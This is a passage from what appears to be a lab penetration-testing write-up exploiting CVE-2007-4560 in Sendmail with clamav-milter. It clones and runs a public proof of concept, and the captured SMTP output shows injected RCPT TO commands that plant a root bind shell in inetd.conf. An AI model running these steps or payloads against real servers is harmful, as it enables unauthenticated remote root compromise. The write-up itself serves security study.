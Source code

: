 Found out that it is affected by CVE-2007-4560, a vulnerability in ClamAV’s clamav-milter when configured with `--black-hole-mode`. In this mode, recipient addresses are passed unsanitized to `popen()`, allowing an attacker to inject shell metacharacters via the `RCPT TO` field in an SMTP transaction, leading to unauthenticated remote command execution on the mail server.

I'll search for any PoC related to the CVE and found [this from Github](https://www.github.com/Sic4rio/-Sendmail-with-clamav-milter-0.91.2---Remote-Command-Execution)  that is working relatively well.

`git clone https://github.com/Sic4rio/-Sendmail-with-clamav-milter-0.91.2---Remote-Command-Execution`

`cd -Sendmail-with-clamav-milter-0.91.2---Remote-Command-Execution`

Give execute permission to the exploit `chmod +x exploit.py`

I'll run the exploit.

`python exploit.py "$TARGET"`

```plaintext
  ________                ___ _    __                                                                                                                                                [6/45632]
  / ____/ /___ _____ ___  /   | |  / /
 / /   / / __ `/ __ `__ \/ /| | | / /
/ /___/ / /_/ / / / / / / ___ | |/ /
\____/_/\__,_/_/ /_/ /_/_/  |_|___/
           _.-''|''-._
        .-'     |     `-.
      .'\       |       /`.
    .'   \      |      /   `.
    \     \     |     /     /
     `\    \    |    /    /'
       `\   \   |   /   /'
         `\  \  |  /  /'
   23   _.-`\ \ | / /'-._
       {_____`\|//'_____}
               `-'

Clam AntiVirus 'clamav-milter' Remote Code Execution Exploit


Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Remix (C) 2023 SICARIO

Attacking 192.168.114.42...

220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Tue, 5 Aug 2025 14:48:05 -0400; (No UCE/UBE) logging access from: [192.168.45.156](TEMP)-[192.168.45.156]
250-localhost.localdomain Hello [192.168.45.156], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"@localhost>... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart"@localhost>... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 575Im5AF004325 Message accepted for delivery
```